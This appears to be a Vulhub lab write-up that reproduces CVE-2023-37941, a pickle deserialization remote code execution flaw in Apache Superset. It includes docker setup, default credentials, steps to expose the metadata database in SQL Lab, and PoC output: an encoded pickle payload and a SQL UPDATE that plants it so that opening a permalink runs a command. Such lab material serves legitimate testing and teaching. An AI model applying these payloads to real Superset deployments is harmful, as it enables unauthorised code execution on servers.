





Apache Superset Python Pickle Deserialization Leads to RCE (CVE-2023-37941)¶
Apache Superset is an open-source data exploration and visualization platform designed to be visual, intuitive, and interactive.
Apache Superset versions from 1.5 to 2.1.0 contain a Python Pickle deserialization vulnerability (CVE-2023-37941). The application uses Python's pickle package to store certain configuration data in the metadata database. An authenticated user with write access to the metadata database can insert a malicious pickle payload, which when deserialized by the application, leads to remote code execution on the Superset server.
When combined with CVE-2023-27524, an unauthenticated attacker can achieve remote code execution by first bypassing authentication and then exploiting the deserialization vulnerability.
References:
- https://www.horizon3.ai/attack-research/disclosures/apache-superset-part-ii-rce-credential-harvesting-and-more/
- https://github.com/Barroqueiro/CVE-2023-37941
- https://forum.butian.net/share/2458
Environment Setup¶
Execute the following command to start an Apache Superset 2.0.1 server:
docker compose up -d
After the server is started, you can access Superset at http://your-ip:8088. The default login credentials are admin/vulhub.
Vulnerability Reproduction¶
The following steps assume you have already generate a valid session cookie and logged into the Dashboard through the CVE-2023-27524 vulnerability.
First, create a new "Dashboard" and generate a permalink by clicking the "Share" button, copy this permalink and we will use it later:

Then, create a new "Database" connection by following the steps below:
- Navigate to "Data" → "Databases" in the Superset UI
- Click "+ Database" to add a new database connection
- Enter a name for the database (e.g., "SQLite")
- For the SQLAlchemy URI, use:
sqlite+pysqlite:////app/superset_home/superset.db - Expand "Advanced" and check "Expose in SQL Lab" and "Allow DML"
- Save the database configuration


Then, use CVE-2023-37941.py to generate a malicious SQL command (the -d option can be sqlite, mysql, or postgres, means the database type of the Superset server, here is sqlite in Vulhub):
$ python3 CVE-2023-37941.py -c "touch /tmp/success" -d sqlite
[+] Base64 encoded payload:
Y3Bvc2l4CnN5c3RlbQpwMAooVnRvdWNoIC90bXAvc3VjY2VzcwpwMQp0cDIKUnAzCi4=
[+] Hex encoded payload (for SQL):
update key_value set value=X'63706f7369780a73797374656d0a70300a2856746f756368202f746d702f737563636573730a70310a7470320a5270330a2e' where resource='dashboard_permalink';
[!NOTE] Because the
pickledeserialization payload is different for different operating systems, you need to run the POC on Linux or MacOS.
Execute the generated SQL command in the SQL Lab:

Finally, trigger the deserialization by accessing the permalink:

As you can see, the touch /tmp/success command has been executed successfully.